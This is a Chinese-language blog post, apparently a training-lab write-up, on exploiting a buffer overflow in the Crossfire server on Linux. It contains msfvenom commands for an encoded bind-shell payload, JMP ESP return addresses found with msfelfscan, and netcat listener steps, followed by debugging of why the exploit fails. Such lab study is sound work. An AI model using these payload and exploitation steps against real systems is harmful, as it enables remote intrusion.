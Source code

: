 ```yaml
---
title: crossfire&linux缓冲区溢出案例（四）
categories:
- buffer overflow
tags:
- buffer overflow
---
```

参考资料：[linux程序的常用保护机制](https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/)

上一篇：[crossfire&linux缓冲区溢出案例（三）](https://whale3070.github.io/buffer%20overflow/2020/01/28/12-x/)

## 生成shellcode
上一篇找到了这些坏字符，在生成shellcode的时候必须避免这些字符出现`\x00\x09\x0a\x20`

```
[目标主机ip-linux] 192.168.67.128
[攻击机ip]         192.168.67.1

msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b
"\x00\x09\x0a\x20" –e x86/shikata_ga_nai

msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f python -b "\x00\x09\x0a\x20" –e x86/shikata_ga_nai
```

## 寻找返回地址
现在我们知道要到达ESP寄存器指向的缓冲区，我们需要找到一条指令，例如`JMP ESP`，它将把我们带到ESP寄存器指向的地址。 

### edb
Evans Debugger具有简单的操作码搜索功能。ctrl + o 快捷键搜索操作码

```
[目标机执行bof程序]edb --run /usr/games/crossfire/bin/crossfire
```
但是经过搜索，没有找到任何有效的跳转地址。怀疑是版本不是最新版，有bug，但是apt-get upgrade edb，报了错。
```
The following packages have unmet dependencies:
 emacs-common : Breaks: edb (< 1.32) but 1.31-3 is to be installed
E: Broken packages
```
放弃使用edb来查找跳转指令。
### msfelfscan
如果运行msfelfscan提示命令未找到“ command not found” 
```
cd /usr/bin
ln -s /usr/share/framework2/msfelfscan msfelfscan
```
msfelfscan -j esp -f  /usr/games/crossfire/bin/crossfire
```
0x08134597   jmp esp
0x081345d7   jmp esp
0x08134727   jmp esp
0x081349c7   jmp esp
0x08134ad7   jmp esp
0x08134f87   jmp esp
```
## exp

```
[攻击机执行命令] ./nc.exe -lnvp 4444
[攻击机] python exp.py
```
这是exp在栈中的执行流程。
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-05-09/1.png)

## debug
经过一些失败的尝试，crossfire程序还是没有成功反弹shell。
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-05-09/2.PNG)

SIGSEGV是非法内存访问异常

同样的crossfire程序，同样的exp。在官方的给的虚拟机中可以成功溢出获得shell，但是在自己的x64位linux上不能。

[官方给的靶机地址: pwk-kali-vm.7z](https://images.offensive-security.com/pwk-kali-vm.7z)

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-05-09/4.PNG)

github上有人问了同样的[问题](https://github.com/eteran/edb-debugger/issues/724)，但是没有答案或者解决方案

### checksec
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-05-09/3.PNG)

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   2262 Symbols     No     0               18      crossfire

RELRO: read only relocation 尽量减少可写的存储区域
STACK CANARY ：栈保护
NX 将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令
PIE 地址空间分布随机化
RPATH  
RUNPATH     
Symbols        
FORTIFY Fortified       检查是否存在缓冲区溢出的错误
Fortifiable  FILE
```

## 运行crossfire的虚拟机
未成功的机器A：
`Linux kali 5.4.0-kali3-686-pae #1 SMP Debian 5.4.13-1kali1 (2020-01-20) i686 GNU/Linux`

成功的虚拟机B：
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-05-09/5.PNG)

B机器检查“地址空间分布随机化”后，发现是开启状态，可以确定运行失败的原因跟这个无关。
```
/proc/sys/kernel/randomize_va_space
2
```
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-05-09/6.PNG)
在成功弹shell一次后，再次运行机器B的exp，溢出就无法成功了。

重启后，运行exp，就能成功弹shell。

推测是因为溢出改变了某个内存机制？知识的匮乏导致无法继续分析。